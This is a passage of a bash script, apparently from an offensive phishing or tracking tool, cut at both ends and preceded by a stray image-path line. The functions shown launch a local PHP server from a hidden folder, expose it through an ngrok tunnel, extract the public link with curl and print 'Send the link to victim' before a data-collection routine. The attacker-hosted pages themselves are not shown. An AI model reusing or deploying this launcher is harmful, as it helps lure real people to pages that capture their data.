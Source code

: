 menu

fi

}

start_localhost() {

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;92m( \e[0m\e[1;96mhttp://127.0.0.1:5555 \e[0m\e[1;92m)\e[0m\n"

cd .htr/www && php -S 127.0.0.1:5555 > /dev/null 2>&1 & 

sleep 2

smallbanner

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Successfully Hosted at :\e[0m\e[1;93m http://127.0.0.1:5555\e[0m\n"

datafound

}

start_ngrok() {

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;91m ( \e[0m\e[1;96mhttp://127.0.0.1:5555\e[0m\e[1;91m )\e[0m\n"

sleep 1

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Launching Ngrok ...\e[0m\n"

cd .htr/www && php -S 127.0.0.1:5555 > /dev/null 2>&1 & 

sleep 2

./.htr/ngrok http 127.0.0.1:5555 > /dev/null 2>&1 &

sleep 7

ngrok_link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[0-9a-z]*\.ngrok.io")

smallbanner

printf "\e[0m\n"

printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Send the link to victim :\e[0m\e[1;93m %s \n" $ngrok_link

datafound

}

start_serveo() {

serveo_default_choose_sub="Y"
